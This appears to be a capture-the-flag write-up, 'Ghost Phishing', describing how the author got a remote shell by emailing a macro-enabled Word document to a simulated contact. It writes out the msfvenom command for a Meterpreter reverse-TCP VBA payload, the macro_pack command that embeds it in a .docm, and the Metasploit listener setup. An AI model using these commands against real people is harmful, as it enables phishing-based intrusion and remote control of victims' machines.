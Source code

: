 **Ghost Phishing**

For this You are given access to an email of specter@darknetmail.corp on the internal network of attackers, where you have direct communication with Cipher.

There was very little functionality on the email server, except for one email in the inbox from Cipher asking for a full report of our current operations.
![image](https://github.com/user-attachments/assets/f08282ea-8c32-49fd-89d2-df471cc83a87)

I decided to send a test email, to which Cipher responded with "send an attachment"
my next email I sent a .txt file with no content in it

![image](https://github.com/user-attachments/assets/ef433804-be60-4ecb-a7b0-e5a469d5e50a)


the above response lead me to believe this will be solved with either A. giving Cipher a report to trigger a different response or B. the most likely, I need to craft a word document and embed a VBA with a reverse shell.

I've tried many different ways on my local ParrotOS to create a .docm with a malicious macro, but they all seemed to fail, after some thinking I decided to bite the bullet and setup a VM with a windows 11 environment so i can use a tool called macro_pack 
https://github.com/sevagas/macro_pack

First I created a payload on my Local machine using msfvenom with following
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=6656 -f vba > file.vba

Next I needed to move it across to my windows VM, since both are on the same network I decided to host python3 uploadserver so I can retrieve the malicious file back to my local VM and upload to cipher

python3 -m uploadserver 8001
Back on the windows VM i downloaded the file and using macro_pack I injected it with malicious vba to a docm using below
macro_pack.exe -f file.vba -o -G x6466.docm

![image](https://github.com/user-attachments/assets/fc1daf27-4856-4f2c-b2a7-0a3e34f6a896)


next back to upload server and I sent it back to my ParrotOS.
lastly setup your listener on Meterpreter
msfconsole
use multi/handler
set LHOST tun0
set LPORT 6656
run

After uploading the malicious file to cipher, after a minute i received my shell

![image](https://github.com/user-attachments/assets/1bd846ee-edd2-4170-b528-eb9780ff2fbc)

